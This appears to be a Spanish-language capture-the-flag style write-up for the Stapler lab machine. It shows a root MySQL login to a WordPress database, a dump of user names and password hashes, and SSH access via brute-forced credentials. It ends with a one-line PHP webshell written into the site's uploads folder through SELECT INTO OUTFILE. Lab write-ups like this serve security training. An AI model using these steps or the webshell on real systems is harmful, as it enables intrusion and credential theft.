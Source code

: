 ```python
```
Se accedió al servicio mysql como root a la base de datos `wordpress`, de hecho se puede visualizar:
```sql
$mysql -u root -h 192.168.0.72 -p wordpress
Enter password: 
[...]

MySQL [wordpress]> select * from wordpress
    -> ;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
11 rows in set (0.008 sec)
```
Se obtuvo información de usuarios registrados y sus contraseñas.
```sql
MySQL [wordpress]> select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| John       | $P$B7889EMq/erHIuZapMB8GEizebcIy9. |
| Elly       | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 |
| Peter      | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 |
| barry      | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 |
| heather    | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 |
| garry      | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 |
| harry      | $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 |
| scott      | $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 |
| kathy      | $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 |
| tim        | $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 |
| ZOE        | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 |
| Dave       | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. |
| Simon      | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 |
| Abby       | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. |
| Vicki      | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 |
| Pam        | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 |
| alexi      | $P$Bd/l6jEcyOlk91ddFn2p.Om79kaHKj0 |
+------------+------------------------------------+
17 rows in set (0.009 sec)
```
## Explotación
Por el lado de la fuerza bruta a servicios, se accedió a SSH con credenciales de usuario `SHayslett`, obtenidas en [[Stapler#Fuerza%bruta%a%servicios]]
### Webshell desde reconocimiento web
Se realizó una inyección SQL en un archivo acchesicle para ejecutar comandos:
```sql
MySQL [wordpress]> SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/https/blogblog/wp-content/uploads/shell.php';
Query OK, 1 row affected (0.013 sec)
```